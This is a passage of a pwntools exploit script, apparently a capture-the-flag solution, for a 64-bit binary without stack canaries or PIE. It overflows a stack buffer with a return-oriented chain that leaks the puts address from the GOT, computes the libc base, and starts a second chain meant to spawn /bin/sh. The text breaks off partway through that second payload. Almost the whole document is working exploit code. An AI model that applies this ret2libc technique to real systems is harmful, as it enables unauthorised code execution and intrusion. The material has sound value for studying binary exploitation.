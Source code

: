```python
def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
set follow-fork-mode parent
set follow-exec-mode same
b *0x0000000000400757
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.sendlineafter("Secret message: ", "#!@{try_hard3r}")

pop_rdi = 0x00000000004008f3
main = exe.symbols["main"]

payload = b"A"*(0x80-8)
payload += p64(pop_rdi)
payload += p64(exe.got["puts"])
payload += p64(exe.plt["puts"])
payload += p64(main)
io.sendlineafter("Message: ", payload)

io.recvuntil("Hacker alert")
io.recvline()
leak = u64(io.recvline().rstrip().ljust(8, b"\x00"))
log.info(f"leak: {hex(leak)}")

if args.LOCAL:
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    libc = ELF("libc6_2.27-3ubuntu1.3_amd64.so")

libc.address = leak - libc.symbols["puts"]
log.success(f"libc base: {hex(libc.address)}")
payload = b"A"*(0x80-8)
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rdi+1) # ret gadget for stack alignment
```